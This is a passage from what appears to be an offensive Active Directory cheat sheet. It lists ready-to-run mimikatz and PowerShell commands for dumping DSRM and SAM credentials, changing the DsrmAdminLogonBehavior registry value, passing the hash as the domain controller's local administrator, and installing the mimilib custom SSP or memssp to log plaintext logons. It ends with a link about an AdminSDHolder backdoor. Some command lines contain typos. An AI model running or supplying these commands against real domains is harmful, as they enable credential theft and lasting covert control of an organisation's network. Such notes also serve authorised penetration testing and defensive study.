 ### Authenticate as any user with password ```mimikatz```

## DSRM
#### Dump DSRM password - dumps local users
- look for the local administrator password
```
Invoke-Mimikatz -Command '"token::elevate” “lsadump::sam"' -Computername <TARGET>
```

#### Change login behavior for the local admin on the DC
```
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
```

#### Overpass the hash local administrator
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC NAME> /user:Administrator /ntlm:<HASH> /run:powershell.exe"' 
```

#### Use PSremoting with NTLM authentication
```
Enter-PSSession -ComputerName <COMPUTERNAME> -Authentication Negotiate 
```

## Custom SSP - Track logons
#### Mimilib.dll
- Drop mimilib.dll to system32 and add mimilib to HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
SetItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' Value $packages
```

#### Use mimikatz to inject into lsass
all logons are logged to C:\Windows\System32\kiwissp.log
```
Invoke-Mimikatz -Command '"misc:memssp"'
```

## ACL
### AdminSDHolder
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence
